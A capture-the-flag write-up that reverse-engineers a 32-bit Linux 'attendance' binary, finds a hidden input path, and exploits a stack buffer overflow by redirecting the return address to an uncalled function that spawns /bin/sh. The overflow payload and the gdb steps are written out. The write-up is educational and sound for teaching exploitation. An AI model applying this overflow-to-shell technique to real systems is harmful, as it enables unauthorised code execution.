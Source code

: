 ### Attendance
50 points
> hmmm, I feel not all students are attending my lesson today, someone missing?
>
> remote: 89.38.210.128 31337

---

We get given an ip address and the (linux) executable running on it. First I spent a while setting up a proper linux vm, as it turns out bash on windows just doesn't support 32-bit executables. When you run the executable you end up with something along the lines of the following:

```
t@t:~$ nc 89.38.210.128 31337
Call> Bob
No such student
t@t:~$
```

Messing with it I noticed that if you typed more than 6 characters you'd lose the last new line, and if you were running it locally the extra characters would then spill out into your console. I then installed Binary Ninja in order to debug it further. When you open up main there's a nice repeating pattern.

![Disassembly Pattern][00_Disassembly]

Looking at this more closely you can see that before the first jump it checks if a variable is equal to 0x1, if not it jumps. Then it checks if it's equal to 0x2, if not it jumps, and this continues all the way up to 0x5. If at any point it is equal, it instead moves on to call a function "student_n", where n is the value it was comparing to. After all the student blocks, however, there's another one, comparing to 0x7a69, and then jumping to "principal". This was interesting, and I wanted to work out a way to get to it. From a hunch I tried entering just "1" into the program and look at what I got:

```
t@t:~$ nc 89.38.210.128 31337
Call> 1
Student 1 - present
t@t:~$
```

From this I should have just gone on to try 0x7a69 - 31337, but instead I spent quite a while in gdb trying to work out what exactly was happening to my input. When I eventually did try that though, the following happened:

```
t@t:~$ ./attendance
Call> 31337
Leave a Message for the principal, please:
test
Principal got your message test
t@t:~$
```

Then I found something else more interesting

```
t@t:~$ ./attendance
Call> 31337
Leave a Message for the principal, please:
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
Principal got your message AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPP
Segmentation fault
t@t:~$ PQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
PQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ: command not found
t@t:~$
```

So firstly, we only have 63 characters (and the newline) to work with, but more interestingly we have a buffer overflow. The challenge later got a hint about exactly this. Getting the segfault in gdb gives the following more detailed error:

```
Progran recived signal SIGSEV, Segmentation fault.
0x4d4d4d4d in ?? ()
```

0x4d4d4d4d corresponds to 'MMMM'. So I went to try find exactly caused it, and what I could substitute in. But while trying this, I repeatedly came across a really annoying feature I decided I had to deal with. If you spend too long, the program just kicks you out. Back in Binary Ninja I found what was causing that:

![Alarm call][01_Alarm]

So to avoid that, in gdb I did the following:

```
(gdb) break *0x080486bd
Breakpoint 11 at 0x80486bd
(gdb) command
Type commands for breakpoint(s) 11, one per line.
End with a line saying just "end".
>silent
>jump *0x08048c5
>c
>end
(gdb)
```

With this in place I could safely continue debugging. I eventually found out the segfault was coming from the return of the principal function. In Binary Ninja there was a function "bring\_students\_to\_school", which wasn't being called from anywhere, so I figured what if I change the return to point to there. The disassembly included the string "/bin/sh" and had a call straight to system, which definitely seemed promising. So I setup a breakpoint right after the input, _input nothing_, and then set the correct bytes to the return address. And it worked. I had a bash shell there. So I went ahead trying to recreate this in my actual shell.

```
t@t:~$ echo -e "31337\nAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLL\x60\x86\x04\x08" | ./attendance
Call> Leave a message for the principal, please:
Principal got your message AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLL`▒
Segmentation fault
t@t:~$
```

Well that's not good. What I thought happened here was that I'd overwritten some other crucial byte with the rest of my text, so I spent way too long mapping everything out, working what bytes I'd have to set everything to, and working out where nulls could be replaced with 0x01. In actuality what was happening was address space layout randomization, the function just wasn't in the same place. As it turns out both gdb and the remote sever had this disabled, so I was really right all along. The last problem was just inputting it, as netcat wasn't printing anything if I piped stuff in. Because of this I copied a quick bit of code from stackoverflow, adjusted it a bit, and then just did everything through python. And it worked. A bit of exploring the file system later and...

```
t@t:~$ python attendance.py cat /home/attendance/flag
timctf{l1ttl3_th1ngs_m4k3_b1g_th1ngs_h4pp3n}
```


[00_Disassembly]: ../images/07_00_disassembly.png
[01_Alarm]: ../images/07_01_alarm.png
